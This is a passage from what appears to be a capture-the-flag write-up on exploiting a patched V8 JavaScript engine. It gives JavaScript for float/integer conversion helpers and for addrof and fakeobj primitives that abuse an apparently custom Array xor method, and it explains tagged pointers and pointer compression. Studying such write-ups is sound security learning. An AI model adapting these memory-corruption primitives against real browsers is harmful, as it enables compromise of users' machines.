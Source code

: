 ## Getting addrof and fakeobj
Given these properties, we can set arr[0] to point to some existing object to write a pointer in arr[0], which we can then read. This will provide us with `addrof` primitives, because we will be able to read ptr to any object.

Other than that I gathered helper functions from other writeups to help with debugging and type casting:
```js
const buffer = new ArrayBuffer(8);
const floatBuffer = new Float64Array(buffer);
const int64Buffer = new BigUint64Array(buffer);
function i2f(i) {int64Buffer[0] = i; return floatBuffer[0];};
function f2i(f) {floatBuffer[0] = f; return int64Buffer[0];};
function hex32(i) {return "0x" + i.toString(16).padStart(8, 0);};
function hex64(i) {return "0x" + i.toString(16).padStart(16, 0);};
```

Let's craft the addrof primitive:
```js
function addrof(obj) {
    var arr = [13.37]; 
    arr.xor({
        valueOf: function() {
            arr[0] = {}; 
            arr[0] = obj; 
            return 1;
        }
    });
    return (arr[0] << 1) | 1;
};
```

If you don't have any experience with v8 you may be asking why am I shifting value by one bit and adding 1 to the end. This is because of tagged pointers. In PACKED_ELEMENTS array everything ending ending with LSB set gets interpreted as a pointer. To make sure this works properly all other values like SMI (small integers) needs to be shifted by 1 even though they may be ending with 0. When reading value, this will get automatically reversed so to get correct ptr as it is written on the v8 heap we need to do this.

If you are trying to go through my writeup till this point you are definitely wondering why are we still getting only 32 bit addresses and not 64bits? Of course there is nothing at `0x00000000xxxxxxx1`. This is what V8 calls POINTER COMPRESSION. Given that v8 assumes everything is happening inside of v8's heap (except JITted code where it gets really complicated) it does not need to store the first 4 bytes of the address - it is useless to store, because it is the same everytime. Therefore address like 0x00002f2741414141 gets compressed to 0x41414141 while being stored on heap.

Having a valid ptr now we will be able to utilize fakeobj primitive which we can craft aswell.
```js
function fakeobj(ptr) {
    var arr = [13.37]; 
    arr.xor({
        valueOf: function() {
            arr[0] = {}; 
            arr[0] = (ptr >> 0x1); 
            return 1;
        }
    });
    return arr[0];
}
```
